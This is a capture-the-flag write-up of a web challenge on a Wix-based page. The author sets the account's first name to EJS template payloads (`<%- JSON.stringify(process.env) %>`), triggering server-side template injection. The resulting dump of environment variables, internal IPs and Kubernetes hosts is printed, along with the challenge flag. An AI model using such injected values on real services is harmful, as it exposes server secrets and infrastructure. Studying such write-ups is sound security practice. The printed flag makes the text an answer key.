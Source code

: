 # tryMe
15 Points

## Solution

We get a page with a button "Send a test email". The developer console outputs a message: "Loading the code for the tryMe (15 pt) page. To debug this code, open o2txy.js in Developer Tools.".

Let's click the button. We get an email to the address we used for registration:

```
Hey firstName, Thanks for participating in the CTF!
Maybe there are some hints in the client-side code? (o2txy.js)
```

Ok then, let's check the code:

```javascript
import wixUsers from 'wix-users';
import wixLocation from 'wix-location';
import {sendMail,checkFlag} from 'backend/motiSendMail';


$w.onReady(function () {
	let user = wixUsers.currentUser;
	let isLoggedIn = user.loggedIn;
	if (!isLoggedIn)
		wixLocation.to("/")
});


export function button1_click(event) {
		/* TODO (ctf) - Security folks asked us to add XSS filtering on the username on the backend, 
		https://stackoverflow.com/questions/31787351/can-we-do-something-like-alerttemp-in-ejs 
		
		Perhaps we need to define this behaviour in the environment variables?
		*/
		sendMail().then(function(result) {
			$w('#text7').text = result.toString();
			$w('#text7').show();
});
}


```

Looks like they are concerned about XSS filtering in the backend, and link to a StackOverflow question for which the answer to is:

```
<%= TEMP  %>
```

So let's try to use the same technique by changing our first name, for example to `<%- JSON.stringify(locals) %>`. After clicking the button again, we get the following email:

```
Hey {"html":"Hey <%- JSON.stringify(locals) %> ,Thanks for participating in the CTF!\nMaybe there are some hints in the client-side code? (o2txy.js)"} ,Thanks for participating in the CTF!
Maybe there are some hints in the client-side code? (o2txy.js)
```

Looks like it's working. Now we change the name to: `<%- JSON.stringify(process.env) %>` and get:

```
Hey {"PATH":"/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin","HOSTNAME":"kore-ghost-pub-ga-5d955446b-74sch","NODE_ENV":"production","NODE_CONFIG":"{\"elementory\" : {\"edmRoot\": \"/dynamic-modules/edm_root\", \"npmPath\": \"/dynamic-modules/third-party-npm\", \"edmRootNode14\": \"/dynamic-modules/edm_root-14\", \"npmPathNode14\": \"/dynamic-modules/third-party-npm-14\" ,\"webMethodTimeoutMillis\": 14000, \"xSeenBy\":\"3h6zdoeTDYlwgjQoBu5YkQ==\", \"useGenericError\": true, \"viewMode\": \"Public\" }, \"bundler\": {\"disable\": false},\"dataApi\": {\"serviceHost\": \"docstore.wix-code.com\",\"servicePort\": 80,\"baseUrl\": \"/api/apps\"},\"disUrl\":\"http://dis.wix-code.com\",\"monitoringHub\": {\"host\": \"monitoringhub.wix.com\",\"port\": 80,\"baseUrl\": \"\",\"dc\": \"84\",\"source\": \"elementory\"}}","POD_NAME":"kore-ghost-pub-ga-5d955446b-74sch","TRACE_ORIGIN":"kore-ghost-pub-ga-5d955446b-74sch","POD_IP":"10.243.2.88","PORT":"3000","KORE_NETWORK_COMPASS_PORT":"tcp://10.243.68.61:80","KORE_NETWORK_COMPASS_PORT_80_TCP":"tcp://10.243.68.61:80","KUBERNETES_SERVICE_PORT":"443","BUNDLER_PUB_GA_SERVICE_PORT_HTTP":"80","BUNDLER_PUB_GA_PORT":"tcp://10.243.68.146:80","KORE_NETWORK_COMPASS_SERVICE_HOST":"10.243.68.61","KORE_NETWORK_COMPASS_PORT_80_TCP_PROTO":"tcp","KORE_NETWORK_COMPASS_PORT_80_TCP_PORT":"80","KUBERNETES_PORT_443_TCP_PORT":"443","KUBERNETES_PORT_443_TCP_ADDR":"10.243.64.1","BUNDLER_PUB_GA_SERVICE_PORT":"80","BUNDLER_PUB_GA_PORT_80_TCP_PROTO":"tcp","BUNDLER_PUB_GA_PORT_80_TCP_ADDR":"10.243.68.146","KORE_NETWORK_COMPASS_SERVICE_PORT":"80","KORE_NETWORK_COMPASS_PORT_80_TCP_ADDR":"10.243.68.61","KUBERNETES_SERVICE_PORT_HTTPS":"443","KUBERNETES_PORT":"tcp://10.243.64.1:443","KUBERNETES_PORT_443_TCP":"tcp://10.243.64.1:443","BUNDLER_PUB_GA_PORT_80_TCP":"tcp://10.243.68.146:80","BUNDLER_PUB_GA_PORT_80_TCP_PORT":"80","KUBERNETES_SERVICE_HOST":"10.243.64.1","KUBERNETES_PORT_443_TCP_PROTO":"tcp","BUNDLER_PUB_GA_SERVICE_HOST":"10.243.68.146","DEBUG":"wix:error:*","HOME":"/","CHALLENGE_3_FLAG":"flag{SSTI_IS_NOT_A_JOKE!@#@$%!@}"} ,Thanks for participating in the CTF!
```

The flag: `flag{SSTI_IS_NOT_A_JOKE!@#@$%!@}"}`